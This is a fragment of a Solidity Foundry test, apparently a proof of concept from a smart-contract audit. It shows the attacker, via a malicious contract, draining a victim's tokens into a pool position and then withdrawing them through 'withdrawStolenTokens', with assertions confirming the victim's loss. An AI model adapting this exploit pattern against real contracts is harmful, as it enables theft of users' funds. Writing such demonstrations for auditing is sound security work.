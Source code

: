 ```solidity
        // Verify victim's tokens were used
        assertLt(
            token0.balanceOf(victim),
            amount0Needed,
            "Victim's token0 should be reduced"
        );
        assertLt(
            token1.balanceOf(victim),
            amount1Needed,
            "Victim's token1 should be reduced"
        );

        // Verify the pool received the tokens (position is created)
        bytes32 positionKey = keccak256(
            abi.encodePacked(address(maliciousContract), tickLower, tickUpper)
        );
        (uint128 liquidity, , , , ) = pool.positions(positionKey);
        assertGt(
            liquidity,
            0,
            "Position should have been created with victim's funds"
        );

        // NOW DEMONSTRATE THE ATTACKER WITHDRAWING THE STOLEN TOKENS
        // Record token balances before withdrawal
        uint256 attackerToken0Before = token0.balanceOf(attacker);
        uint256 attackerToken1Before = token1.balanceOf(attacker);

        // Attacker withdraws tokens from the position
        vm.startPrank(attacker);
        maliciousContract.withdrawStolenTokens(
            tickLower,
            tickUpper,
            providedLiquidity
        );
        vm.stopPrank();

        // Verify attacker received the tokens
        assertGt(
            token0.balanceOf(attacker) - attackerToken0Before,
            0,
            "Attacker should receive token0"
        );
        assertGt(
            token1.balanceOf(attacker) - attackerToken1Before,
            0,
            "Attacker should receive token1"
        );
    }
```
